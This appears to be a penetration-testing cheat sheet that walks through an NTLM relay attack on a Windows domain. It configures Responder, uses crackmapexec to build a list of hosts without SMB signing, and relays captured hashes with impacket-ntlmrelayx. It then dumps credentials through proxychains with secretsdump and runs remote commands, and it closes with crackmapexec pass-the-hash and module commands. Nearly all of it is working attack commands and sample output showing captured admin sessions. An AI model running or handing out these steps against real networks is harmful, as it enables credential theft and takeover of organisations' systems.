 ##### NTLM Relay attack #####

 modify on responder file /etc/responder/Responder.conf
SMB = Off  // Off instead of On
HTTP = Off  // Off instead of On

 Create a list of hosts within the environment with SMB signing disabled using crackmapexec

```bash
crackmapexec smb 172.19.0.0/16 --gen-relay-list targets.txt
wc -l targets.txt
```
 Fire up responeder to capture hashes

 ```bash
responder -I eth1 -r -d -w
```
 then fire up ntlmrelayx script to relay those hashes

 ```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -debug -socks
```
 After a while u can check ntlmrelayx if any session was captured
ntlmrelayx> socks
Protocol  Target         Username         AdminStatus  Port 
--------  -------- 	 --------         --------     ------
SMB       192.168.1.9    DOM/alice_admin  TRUE         445
SMB       192.168.1.16   DOM/alice_admin  TRUE         445
SMB       192.168.1.17   DOM/alice_admin  TRUE         445
SMB       192.168.1.13   DOM/alice_admin  TRUE         445
SMB       192.168.1.31   DOM/alice_admin  TRUE         445


 use proxychains to interact with ntlmrelayx socks fonctionality (1080 is the default port within ntlmrelayx)
nano /etc/proxychains.conf
[ProxyList]
socks4  127.0.0.1 1080


 Now you can basically do what ever with those sessions

  ```bash
proxychains impacket-smbclient -no-pass DOM/alice_admin@192.168.1.41
proxychains impacket-secretsdump DOM/alice_admin@192.168.1.4
impacket-secretsdump DOM/bob_admin@192.168.1.8
crackmapexec smb 192.168.1.10 -u dom_admin -p dom_admin_password -x whoami
```


##### CRACKMAPEXEC CMD #####

```bash 
with password :  crackmapexec smb 172.16.1.0/24 -u "user" -p "password" 

with hash :  crackmapexec smb 172.16.1.0/24 -u "user" -H "NTLM HASH"

LIST crackmapexec modules :  crackmapexec smb 172.16.1.0/24 -u "user" -p "password" -L 

run crackmapexec modules :  crackmapexec smb 172.16.1.0/24 -u "user" -p "password" -M 'MODULE'

```
